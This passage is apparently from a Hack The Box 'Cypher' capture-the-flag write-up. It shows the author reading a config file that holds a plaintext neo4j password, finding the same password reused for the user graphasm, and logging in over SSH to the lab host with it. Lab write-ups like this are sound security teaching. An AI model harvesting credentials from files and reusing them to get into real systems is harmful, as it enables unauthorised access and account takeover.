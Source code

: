 i was going to read the user.txt but permission denied | so i found a file in the same directory 

Which contains passwords

```bash
cat /home/graphasm/bbot_preset.yml
```

![Screenshot 2025-03-02 at 2.32.48 AM.png](/assets/Images/HTB_Cypher/Screenshot_2025-03-02_at_2.32.48_AM.png)

```bash
neo4j:cU4btyib.20xtCMCXkBmerhK

(Reused)

graphasm:cU4btyib.20xtCMCXkBmerhK
```

---

```bash
ssh graphasm@10.10.11.57
```

→ `cU4btyib.20xtCMCXkBmerhK`
